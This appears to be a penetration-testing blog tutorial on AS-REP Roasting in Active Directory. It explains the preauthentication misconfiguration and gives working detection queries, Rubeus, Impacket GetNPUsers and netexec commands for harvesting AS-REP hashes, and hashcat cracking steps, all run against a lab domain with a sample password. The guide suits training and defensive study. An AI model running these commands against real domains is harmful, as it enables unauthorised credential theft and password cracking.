

> Author : lineeralgebra
{:.prompt-tip}

AS-REP Roasting is an attack technique that targets user accounts in Active Directory with the **"Do not require Kerberos preauthentication"** setting enabled. Normally, when a user requests authentication from a Domain Controller (DC), Kerberos preauthentication ensures that the user proves knowledge of their password before the DC issues a ticket. However, if this protection is disabled, an attacker can request an **AS-REP (Authentication Service Response)** directly from the DC without needing to know the user’s password.

The response contains data encrypted with the user’s password hash. An attacker can capture this information and perform **offline brute-force or dictionary attacks** against it to recover the plaintext password.

AS-REP Roasting is particularly dangerous because:

- It does not require valid domain credentials to perform the initial request.
- It can be executed remotely without needing to log on to a machine.
- It often exposes weak or reused passwords that can be cracked quickly.

In real environments, administrators sometimes (accidentally or for legacy reasons) disable preauthentication for service accounts or users, making them vulnerable to this attack. Detecting and remediating these misconfigurations is an important part of Active Directory hardening.

## As-RepRoasting happening why?


so in this case its happening when `dontreqpreauth` , `DONT_REQ_PREAUTH`  not lets detecet it!!!

### As-RepRoasting detection with ADsearch.exe

```bash
[08/20 22:18:32] execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```


### As-RepRoasting detection with Powerview.py

we now how to login so execute to command

```bash
 Get-DomainUser -PreauthNotRequired
```


or on **WEB INTERFACES**


### As-RepRoasting detection with Bloodhound



or with cipher directly

```bash
MATCH (u:User)
WHERE u.dontreqpreauth = true
AND u.enabled = true
RETURN u
LIMIT 100
```

### As-RepRoasting detection with bloodyAD

```bash
bloodyAD --host VALENOR-DC01.lab.local -u ldapuser -p 'liverpool' -d lab.local get search  --filter "(&(objectCategory=user)(servicePrincipalName=*))" --attr dontreqpreauth

distinguishedName: CN=ldapuser,CN=Users,DC=lab,DC=local

distinguishedName: CN=krbtgt,CN=Users,DC=lab,DC=local
```

## As-RepRoasting Attack

Now we learnt why is happening how we can verify and detect now time to attack!!!

### As-RepRoasting Attack with Rubeus

We will use execute-assembly again for run Rubeus u can find here (.Net Assembly) version

https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Rubeus.exe asreproast /nowrap
```


we can also `preauthscan`  from Rubeus its imporatnt sometimes like https://github.com/GhostPack/Rubeus?tab=readme-ov-file#preauthscan


We have to create username list first how???  we learn before

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user))"
```


and 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Rubeus.exe preauthscan /user:users.txt /domain:lab.local /dc:192.168.1.10
```

### As-RepRoasting Attack with Impacket

[Impacket](https://github.com/fortra/impacket)  is anoter great remote tool for use we can use easily

We will use [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) but highly reccommend to read code before run it.

We can verify with

```bash
GetNPUsers.py 'lab.local/ldapuser:liverpool' -dc-ip 192.168.1.10
```


for attack we need username list how we can create? its relly easy to use with `netexec`


and 

```bash
➜  Kerberos cat nxcusers.txt | awk '{print $5}' > users.txt
➜  Kerberos cat users.txt 
elli.oralie
mireille.hildagard
elfie.sunny
mollie.elianore
laney.patrizia
maurizia.candi
```

now attack time!!!

```bash
GetNPUsers.py lab.local/ -dc-ip 192.168.1.10 -u users.txt
```


### As-RepRoasting Attack with netexec

We saw netexec before they are relly on fire so we can use directly netexec to request it!!!

```bash
nxc ldap 192.168.1.10 -u users.txt '' --asreproast asreproast_hashes.txt 
```

## As-RepRoasting hash crack

There is 2 way to crack but i would say [hashcat](https://hashcat.net/hashcat/) is better cause we will understand which format we are crack in.

we just need to go https://hashcat.net/wiki/doku.php?id=example_hashes and look for hash examples look likes to us.

- Our hash start with `$krb5asrep$23`
    

    

so we can use `18200` module for crack it

```bash
hashcat -m 18200 merrie.cary_hash /usr/share/wordlists/rockyou.txt
```


## My Approach for Kerberoasting vs AS-REPRoasting

- If i started lab from scract and if i got some users potentally first of all verify them with [kerbrute](https://github.com/ropnop/kerbrute) and do asreproast cause we dont need creds
- If i have creds just try kerberoasting if i unsuccessfull create user list and do asreproasting